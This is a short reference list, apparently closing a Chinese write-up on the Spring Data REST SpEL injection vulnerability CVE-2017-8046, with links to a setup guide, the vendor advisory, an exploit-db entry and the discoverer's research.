

## 参考链接

环境搭建：

https://blog.spoock.com/2018/05/22/cve-2017-8046/


SpEL表达式注入漏洞案例

https://mp.weixin.qq.com/s/zK5psO114C7Z6XPynDhIKQ


Spring官方的漏洞公告：

https://spring.io/blog/2018/03/06/security-issue-in-spring-data-rest-cve-2017-8046


exploit-db上的漏洞PoC:

https://www.exploit-db.com/exploits/44289


漏洞发现者的文章：

https://blog.semmle.com/spring-data-rest-CVE-2017-8046/

https://securitylab.github.com/research/spring-data-rest-CVE-2017-8046-ql


